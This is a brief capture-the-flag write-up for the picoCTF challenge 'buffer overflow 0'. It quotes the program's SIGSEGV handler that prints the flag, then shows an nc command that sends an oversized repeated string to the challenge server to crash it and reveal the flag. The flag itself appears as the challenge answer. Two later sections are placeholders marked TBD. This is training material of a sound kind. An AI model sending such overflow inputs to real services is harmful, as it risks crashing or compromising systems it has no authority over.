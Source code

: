 # buffer overflow 0
Challenge provides a source code from which it's immediately obvious that upon a `SIGSEGV` signal the flag is given out
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
...
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
Therefore, let's try to enter a REALLY big input in an attempt to stack smash.
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62854 <<< $(printf "Get smashed lol %.0s" {1..69})
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
(base) achu@air ~ % 
```
And we get our flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`.

# format string 0
TBD

# flag leak
TBD
